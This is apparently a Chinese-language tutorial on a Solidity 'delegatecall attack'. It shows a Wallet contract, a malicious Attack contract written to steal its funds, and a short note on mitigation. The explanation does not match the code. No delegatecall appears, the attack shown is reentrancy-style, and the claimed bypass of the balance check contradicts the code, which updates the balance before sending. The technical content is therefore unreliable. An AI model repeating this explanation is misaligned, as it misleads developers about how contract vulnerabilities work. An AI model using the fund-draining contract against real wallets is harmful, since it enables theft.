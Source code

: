 # 委托调用攻击

Solidity中的委托调用（`delegatecall`）功能允许合约在当前上下文中执行其他合约的函数。这种机制可以用来实现模块化代码和库，但也有可能被黑客利用进行攻击。

在本示例中，我们将创建一个名为 `Attack` 的恶意合约，它会尝试利用委托调用漏洞攻击名为 `Wallet` 的另一个合约，并窃取该合约中的资金。

```solidity
pragma solidity ^0.5.16;

contract Wallet {
    mapping(address => uint256) private balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] -= _amount;
        (bool success, ) = msg.sender.call.value(_amount)("");
        require(success);
    }
}

contract Attack {
    Wallet wallet;

    constructor(Wallet _wallet) public {
        wallet = Wallet(_wallet);
    }

    function attack() public payable {
        wallet.withdraw(msg.sender.balance);
    }

    function () external payable {
        if (address(wallet).balance > 0) {
            wallet.withdraw(1 ether);
        }
    }
}
```

在此示例中，我们定义了两个合约： `Wallet` 和 `Attack`。

`Wallet` 合约是一个基本的钱包合约，允许用户存款、提款和查询余额。合约使用映射来跟踪每个地址的余额，并在执行提款操作时使用委托调用来发送资金。

`Attack` 合约是一个恶意合约，它接受一个 `Wallet` 合约作为参数，并尝试利用委托调用漏洞攻击该合约。在 `attack` 函数中，我们将 `msg.sender` 中的所有金额全部提取到 `Attack` 合约中。在 `fallback` 函数中，我们检查 `Wallet` 合约是否仍有余额，如果有，则尝试从中提取1ETH。

当黑客调用 `Attack` 合约的 `attack` 函数时，它会将其帐户中的所有资金提取出来，并在 `Wallet` 合约上调用 `withdraw` 函数。由于委托调用机制允许 `withdraw` 函数在当前上下文中执行，因此攻击者可以绕过 `require(balances[msg.sender] >= _amount)` 条件并窃取整个合同中的资金。

为了避免这种攻击，我们需要避免使用委托调用机制或者对它进行更加严格的身份验证和授权检查。如果您正在使用第三方库，请确保完全理解其工作原理并信任其代码。